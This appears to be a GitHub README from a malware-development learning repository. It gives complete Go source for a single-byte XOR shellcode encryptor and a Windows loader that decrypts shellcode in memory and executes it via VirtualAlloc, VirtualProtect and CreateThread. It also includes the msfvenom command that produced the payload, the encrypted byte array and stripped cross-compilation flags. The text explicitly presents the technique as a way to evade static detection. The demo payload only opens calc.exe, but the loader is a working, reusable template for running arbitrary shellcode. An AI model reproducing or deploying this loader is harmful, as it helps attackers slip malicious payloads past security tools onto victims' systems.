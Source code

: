 # 🧩 XOR Shellcode Encryptor (Go)

---


## ✨ What It Does

- 📜 Takes raw shellcode (e.g., generated from msfvenom).

- 🔑 Applies a single-byte XOR key to each byte.

- 🔒 Produces an obfuscated byte array (harder for static detection).

- 🛠️ Outputs shellcode in a Go-friendly format → directly usable in loaders.

This is a classic malware technique: keep payloads encrypted at rest and decrypt them at runtime before execution.

## ⚡ How It Works

Input → Raw binary shellcode (e.g. from Metasploit).

Key → A static XOR key (0x85 in this case).

Processing → Loops through every byte, applying cipher[i] = clear[i] ^ key.

Output → Nicely formatted Go array ([]byte{...}) ready to drop into a loader.

---


## Generate Shellcode (example: spawn calc.exe 🧮)

```bash
/opt/metasploit-framework/bin/msfvenom -p windows/x64/exec CMD="calc.exe" -f raw > clean-shellcode.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 276 bytes
kant@APPLEs-MacBook-Pro ~/e/shellcode> cat clean-shellcode.bin 
A?8?u?LLE9?u?XD?@$I?fA?H?P?HD?@ I??VH??A?4?H?M1?H1??A??
                       HD?@I?A??H?AXAX^YZAXAYAZH?? AR??XAYZH??W???]H?H??A?1?o??ջ?VA???????H??(<|
???u?GrojYA????calc.exe⏎    

```
---

## maldev-go/Xor Encryption/shellcode/Xor-Enc/main.go

```go
package main

import (
    "flag"
    "fmt"
    "os"
)

func main()  {

    key := byte(133)

    // Example: ./encryptor -file=shellcode.bin
    pShellcodePath := flag.String("file", "", "Path Of the Shellcode")
    flag.Parse()

    shellcodePath := *pShellcodePath
    
    clearShellcodeByte, err := os.ReadFile(shellcodePath)
    if err != nil {
        fmt.Println("Error Opening file")
        fmt.Println(err.Error())
    }

    var encryptedShellcode []byte

    for i := 0; i < len(clearShellcodeByte); i++ {
        encryptedShellcode = append(encryptedShellcode, clearShellcodeByte[i] ^ key )
    }

    fmt.Print("[]byte{")
    for i := 0; i < len(clearShellcodeByte); i++ {
        if i == len(clearShellcodeByte) - 1 {
            fmt.Printf("%d", encryptedShellcode[i]) // last element, no comma
        } else {
            fmt.Printf("%d, ", encryptedShellcode[i])
        }
    }
    fmt.Println("}")
}


```
---

## 🔨 Run the encryptor
```bash
kant@APPLEs-MacBook-Pro ~/e/shellcode> ls
Xor-Enc/             clean-shellcode.bin  go.mod
kant@APPLEs-MacBook-Pro ~/e/shellcode> go build -o enc Xor-Enc/main.go 
kant@APPLEs-MacBook-Pro ~/e/shellcode> ls
Xor-Enc/             clean-shellcode.bin  enc*                 go.mod
kant@APPLEs-MacBook-Pro ~/e/shellcode> ./enc -h
Usage of ./enc:
  -file string
    	Path Of the Shellcode
kant@APPLEs-MacBook-Pro ~/e/shellcode> ./enc -file=clean-shellcode.bin 
[]byte{121, 205, 6, 97, 117, 109, 69, 133, 133, 133, 196, 212, 196, 213, 215, 212, 211, 205, 180, 87, 224, 205, 14, 215, 229, 205, 14, 215, 157, 205, 14, 215, 165, 205, 14, 247, 213, 205, 138, 50, 207, 207, 200, 180, 76, 205, 180, 69, 41, 185, 228, 249, 135, 169, 165, 196, 68, 76, 136, 196, 132, 68, 103, 104, 215, 196, 212, 205, 14, 215, 165, 14, 199, 185, 205, 132, 85, 14, 5, 13, 133, 133, 133, 205, 0, 69, 241, 226, 205, 132, 85, 213, 14, 205, 157, 193, 14, 197, 165, 204, 132, 85, 102, 211, 205, 122, 76, 196, 14, 177, 13, 205, 132, 83, 200, 180, 76, 205, 180, 69, 41, 196, 68, 76, 136, 196, 132, 68, 189, 101, 240, 116, 201, 134, 201, 161, 141, 192, 188, 84, 240, 93, 221, 193, 14, 197, 161, 204, 132, 85, 227, 196, 14, 137, 205, 193, 14, 197, 153, 204, 132, 85, 196, 14, 129, 13, 205, 132, 85, 196, 221, 196, 221, 219, 220, 223, 196, 221, 196, 220, 196, 223, 205, 6, 105, 165, 196, 215, 122, 101, 221, 196, 220, 223, 205, 14, 151, 108, 210, 122, 122, 122, 216, 205, 63, 132, 133, 133, 133, 133, 133, 133, 133, 205, 8, 8, 132, 132, 133, 133, 196, 63, 180, 14, 234, 2, 122, 80, 62, 117, 48, 39, 211, 196, 63, 35, 16, 56, 24, 122, 80, 205, 6, 65, 173, 185, 131, 249, 143, 5, 126, 101, 240, 128, 62, 194, 150, 247, 234, 239, 133, 220, 196, 12, 95, 122, 80, 230, 228, 233, 230, 171, 224, 253, 224, 133 }
kant@APPLEs-MacBook-Pro ~/e/shellcode> 

```

---

Encrypt Shellcode (XOR)

- Use the Go-based encryptor:

- This outputs an encrypted []byte{...} array.

- File path: Xor Encryption/shellcode/Xor-Enc/main.go

- Paste Encrypted Payload into Loader

- Take the generated []byte{...} array.

- Paste it inside the loader decryptor (Xor Encryption/loader/exp/main.go).

- The loader decrypts it in-memory and executes it.

---

## 🌐 Why XOR?

XOR encryption is one of the oldest tricks in the book for malware authors:

🔀 Obfuscation → Avoids plain-text shellcode detection.

🕵️ Evasion → Helps bypass naive string signatures.

⚡ Fast & Lightweight → Single CPU instruction per byte.

🧩 Easy Integration → Works across any language/runtime.

Of course, advanced security tools can still catch this — but it’s a first step in maldev learning.


---
---

## 🔓 Decryptor (Go) 

This Decryptor is the counterpart to your Encryptor. While the encryptor takes raw shellcode and obfuscates it with a simple XOR cipher, the decryptor reverses the magic and actually executes the payload in memory on Windows.

## 🔑 What It Does

- Takes the XOR-encrypted payload from the Encryptor.

- Decrypts it back into clear shellcode.

- Allocates memory in Windows.

- Copies the payload into memory, flips protections, and executes via CreateThread.

## Xor Encryption/loader/exp/main.go

```go
package main

import (
	"fmt"
	"unsafe"

	"golang.org/x/sys/windows"
)

func main() {
	secretKey := byte(133)

	// Put encrypted byte from prepare here
	encryptedShellcode := []byte{121, 205, 6, 97, 117, 109, 69, 133, 133, 133, 196, 212, 196, 213, 215, 212, 211, 205, 180, 87, 224, 205, 14, 215, 229, 205, 14, 215, 157, 205, 14, 215, 165, 205, 14, 247, 213, 205, 138, 50, 207, 207, 200, 180, 76, 205, 180, 69, 41, 185, 228, 249, 135, 169, 165, 196, 68, 76, 136, 196, 132, 68, 103, 104, 215, 196, 212, 205, 14, 215, 165, 14, 199, 185, 205, 132, 85, 14, 5, 13, 133, 133, 133, 205, 0, 69, 241, 226, 205, 132, 85, 213, 14, 205, 157, 193, 14, 197, 165, 204, 132, 85, 102, 211, 205, 122, 76, 196, 14, 177, 13, 205, 132, 83, 200, 180, 76, 205, 180, 69, 41, 196, 68, 76, 136, 196, 132, 68, 189, 101, 240, 116, 201, 134, 201, 161, 141, 192, 188, 84, 240, 93, 221, 193, 14, 197, 161, 204, 132, 85, 227, 196, 14, 137, 205, 193, 14, 197, 153, 204, 132, 85, 196, 14, 129, 13, 205, 132, 85, 196, 221, 196, 221, 219, 220, 223, 196, 221, 196, 220, 196, 223, 205, 6, 105, 165, 196, 215, 122, 101, 221, 196, 220, 223, 205, 14, 151, 108, 210, 122, 122, 122, 216, 205, 63, 132, 133, 133, 133, 133, 133, 133, 133, 205, 8, 8, 132, 132, 133, 133, 196, 63, 180, 14, 234, 2, 122, 80, 62, 117, 48, 39, 211, 196, 63, 35, 16, 56, 24, 122, 80, 205, 6, 65, 173, 185, 131, 249, 143, 5, 126, 101, 240, 128, 62, 194, 150, 247, 234, 239, 133, 220, 196, 12, 95, 122, 80, 230, 228, 233, 230, 171, 224, 253, 224, 133}

	var clearShellcode []byte

	for i := 0; i < len(encryptedShellcode); i++ {
		clearShellcode = append(clearShellcode, encryptedShellcode[i]^secretKey)
	}

	// Allocating memory
	fmt.Println("Allocating Memory")
	pNewlyAllocatedMem, err := windows.VirtualAlloc(uintptr(0), uintptr(len(clearShellcode)), windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_READWRITE)
	if err != nil {
		fmt.Println("Failed to Allocate Memory")
		fmt.Println(err.Error())
	}
	fmt.Println("Done ...")

	// Copying Shellcode
	fmt.Println("Copying Shellcode")
	destination := unsafe.Slice((*byte)(unsafe.Pointer(pNewlyAllocatedMem)), len(clearShellcode))
	copy(destination, clearShellcode)
	fmt.Println("Done ...")

	fmt.Println("Changing Protection")
	var oldprotect uint32
	windows.VirtualProtect(pNewlyAllocatedMem, uintptr(len(clearShellcode)), windows.PAGE_EXECUTE_READ, &oldprotect)
	if err != nil {
		fmt.Println("Failed to Change Protection")
		fmt.Println(err.Error())
	}
	fmt.Println("Done ...")

	// Launching Thread
	fmt.Println("Launching thread")
	KERNEL32DLL := windows.NewLazyDLL("kernel32.dll")
	procCreateThread := KERNEL32DLL.NewProc("CreateThread")
	h, _, err := procCreateThread.Call(0, 0, pNewlyAllocatedMem, 0, 0, 0)
	if err != nil {
		fmt.Println("Failed to run thread")
		fmt.Println(err.Error())
	}
	fmt.Println("Done ...")

	windows.WaitForSingleObject(windows.Handle(h), windows.INFINITE)
}

```

---

## Cross Compilation

```bash
kant@APPLEs-MacBook-Pro ~/e/loader> GOOS=windows GOARCH=amd64 go build -a -ldflags="-s -w" -trimpath exp/main.go
kant@APPLEs-MacBook-Pro ~/e/loader> ls
exp/      go.mod    go.sum    main.exe*
```

---





